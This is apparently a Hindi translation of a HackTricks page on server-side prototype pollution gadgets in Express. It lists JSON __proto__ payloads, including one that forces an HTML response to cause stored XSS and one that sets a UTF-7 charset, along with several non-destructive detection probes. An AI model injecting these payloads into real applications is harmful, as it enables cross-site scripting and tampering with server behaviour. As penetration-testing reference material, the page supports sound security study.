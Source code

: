 # Express Prototype Pollution Gadgets

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos **में PR जमा करके।**

</details>

## Serve XSS responses

**अधिक विवरण के लिए [मूल अनुसंधान को देखें](https://portswigger.net/research/server-side-prototype-pollution)**

### Change JSON content-type to HTML

एक Express ऐप में **JSON content type response** का उपयोग करते हुए और एक JSON को प्रतिबिंबित करते हुए:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
इन मामलों में XSS एक JSON सामग्री प्रकार के साथ सामान्य रूप से संभव नहीं है। हालांकि, प्रोटोटाइप पोल्यूशन के साथ हम **Express को एक HTML प्रतिक्रिया प्रदान करने के लिए गड़बड़ा सकते हैं।** यह सुरक्षा दोष उन अनुप्रयोगों पर निर्भर करता है जो **`res.send(obj)`** का उपयोग कर रहे हैं और एप्लिकेशन/json सामग्री प्रकार के साथ बॉडी पार्सर का उपयोग कर रहे हैं।
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**प्रदूषण** करके **`body`** और **`_body`** गुणों को दूषित करने से, **Express को HTML सामग्री प्रकार की सेवा करने** और **_body** गुण को प्रकट करने में सक्षम है, जिससे स्थायी XSS हो सकता है।

### यूटीएफ-7 रेंडर करें

Express को **यूटीएफ-7 सामग्री रेंडर करना संभव है**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## सुरक्षित स्कैनिंग तकनीक

### JSON अंतरिक्ष

निम्नलिखित PP एक JSON के अंदर विशेष अंतरिक्ष वाले गुण बनाएगा जो कार्यक्षमता को नहीं तोड़ेगा:
```json
{"__proto__":{"json spaces": " "}}
```
फिर एक परावर्तित JSON इस तरह दिखेगा:
```json
{"foo":  "bar"} -- Note the extra space
```
### उजागरित हेडर

निम्नलिखित PP गैजेट सर्वर को वापस HTTP हेडर भेजने के लिए बनाएगा: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
इसे **CORS मॉड्यूल को स्थापित किया जाना चाहिए**

### **OPTIONS विधि**

निम्नलिखित पेलोड के साथ, **OPTIONS प्रतिक्रिया से एक विधि छुपाना संभव है**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **स्थिति**

निम्नलिखित PP पेलोड का उपयोग करके **वापसी स्थिति कोड** बदलना संभव है:
```json
{"__proto__":{"status":510}}
```
### त्रुटि

जब आप एक प्रोटोटाइप को एक प्राथमिक जैसे कि एक स्ट्रिंग के साथ असाइन करते हैं, तो यह एक **नो-ऑप ऑपरेशन उत्पन्न करता है क्योंकि प्रोटोटाइप को एक ऑब्जेक्ट होना चाहिए**। यदि आप `Object.prototype` को प्रोटोटाइप ऑब्जेक्ट असाइन करने का प्रयास करते हैं, तो यह **एक अपवाद फेंकेगा**। हम इन दो व्यवहारों का उपयोग कर सकते हैं ताकि हम **यह जांच सकें कि क्या प्रोटोटाइप पोल्लूशन सफल रहा है**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### प्रतिबिंबित मान

जब एक एप्लिकेशन अपने प्रतिक्रिया में एक ऑब्जेक्ट शामिल करता है, तो `__proto__` के साथ **असामान्य नाम के एट्रिब्यूट बनाना** देखने लायक हो सकता है। विशेष रूप से, अगर **केवल असामान्य एट्रिब्यूट ही प्रतिक्रिया में वापस किया जाता है**, तो यह एप्लिकेशन की कमजोरी का संकेत हो सकता है:
```json
{"unusualName":"value","__proto__":"test"}
```
इसके अतिरिक्त, ऐसे परिदृश्यों में जहाँ एक पुस्तकालय जैसे Lodash का उपयोग किया जाता है, प्रोटोटाइप प्रदूषण (PP) के माध्यम से और सीधे वस्तु के अंदर एक संपत्ति सेट करना एक और नैदानिक पहुंच प्रदान करता है। यदि ऐसी कोई संपत्ति प्रतिसाद से छूट जाती है, तो यह सुझाव देता है कि Lodash लक्षित वस्तु में संपत्ति की मौजूदगी की पुष्टि कर रहा है पहले से पहले मिलाने से:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## विविध

### डॉट्स की अनुमति

Express में एक विकल्प है जो आपको **क्वेरी स्ट्रिंग पैरामीटर से ऑब्ज
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` नोड में एक ऑब्जेक्ट बनाता है।**

## संदर्भ

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)
